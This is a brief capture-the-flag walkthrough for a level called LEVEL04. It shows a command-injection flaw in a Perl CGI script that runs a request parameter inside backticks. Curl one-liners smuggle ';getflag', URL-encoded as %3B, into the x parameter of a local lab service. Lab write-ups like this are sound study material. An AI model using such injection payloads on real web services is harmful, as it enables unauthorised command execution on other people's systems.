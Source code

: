 LEVEL04
=======

The script level04.pl is a Perl CGI script running on localhost:4747. It takes a parameter x from a web request and executes it using backticks `echo $y 2>&1`, which means it is vulnerable to command injection.

`curl "http://localhost:4747/?x=;getflag"`

need to replace ';' with '%3B'

because Semicolon (;) Special Role in URLs: In URLs, semicolons (;) are not always treated the same as regular characters. They are sometimes used by servers and web frameworks to separate parameters in query strings

for exemple:
`curl "http://localhost:4747/?x=%3Bgetflag"`
x='%3Bgetflag'

`curl "http://localhost:4747/?x=hello;y=world"`
In this case:
x=hello is one parameter.
y=world is another parameter.